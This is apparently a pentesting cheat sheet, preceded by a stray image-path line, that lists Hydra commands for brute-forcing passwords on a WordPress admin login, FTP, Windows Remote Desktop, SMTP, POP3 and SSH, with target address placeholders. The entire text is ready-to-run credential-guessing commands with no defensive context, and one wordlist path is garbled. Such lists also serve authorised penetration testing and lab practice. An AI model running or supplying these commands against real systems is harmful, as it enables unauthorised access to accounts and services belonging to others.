 eeeee				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP
hydra  -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P wordlist.txt pop3://$IP -V -t 31

		 		SSH
### Bruteforce password
`hydra -l username -P wordlist.txt $IP ssh`

### Bruteforce Username and Password
`hydra -L users.txt -P passwords.txt -t 1 -u $ip ssh`